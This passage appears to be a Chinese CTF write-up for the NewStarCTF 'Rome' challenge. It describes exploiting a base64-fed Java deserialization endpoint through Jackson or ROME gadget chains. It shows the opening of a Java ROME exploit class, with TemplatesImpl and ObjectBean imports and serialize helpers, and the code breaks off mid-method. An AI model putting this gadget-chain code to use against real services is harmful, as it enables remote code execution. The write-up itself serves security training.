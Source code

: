 ‍

‍

### NewStarCTF \[Rome\]

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4672a32f00017d85d08ec4a46e3d5a635c322d41.png)​

base64解码直接反序列化，看看依赖有ROME也有jackson

‍

#### jackson

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-64cbf259e27cb02d5ccf9834b83a8cc13b48e58a.png)​

符合漏洞版本直接打jackson反序列化就行

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a41891f460634c0b05dd1ae6ad2cef21d44ae04f.png)​

‍

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3846817d6d80105073b4833de8b7c8a5091879e5.png)​

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-75e31fcd6f854558d27132b5b8a92d45eb6a06d5.png)​

‍

#### rome

直接打rome链即可

```java
package ROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
```